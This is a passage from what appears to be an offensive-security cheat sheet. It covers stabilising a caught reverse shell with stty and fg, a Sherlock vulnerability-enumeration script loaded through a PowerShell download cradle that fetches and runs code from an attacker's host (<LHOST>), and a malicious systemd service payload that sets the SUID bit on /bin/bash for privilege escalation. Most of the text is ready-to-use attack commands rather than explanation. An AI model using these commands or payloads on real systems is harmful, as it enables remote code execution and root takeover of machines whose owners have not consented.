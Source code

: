 #### Oneliner

```c
$ stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

#### Fixing Staircase Effect

```c
$ env reset
```

or

```c
$ stty onlcr
```

### Sherlock

> https://github.com/rasta-mouse/Sherlock

#### Config

Add `Find-AllVulns` at the end of the script to run it as soon as it get's loaded.

```c
            10586 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le 19 ] }
            14393 { $VulnStatus = @("Not Vulnerable","Appears Vulnerable")[ $Revision -le 446 ] }
            default { $VulnStatus = "Not Vulnerable" }

        }

    Set-ExploitTable $MSBulletin $VulnStatus

}
Find-AllVulns

$ IEX(New-Object Net.webclient).downloadString('http://<LHOST>/Sherlock.ps1')
```

### systemctl

#### Malicious Service Privilege Escalation

**Payload**

```c
[Unit]
Description=Example Service

[Service]
Type=simple
ExecStart=chmod +s /bin/bash
Restart=always

[Install]
WantedBy=multi-user.target

```
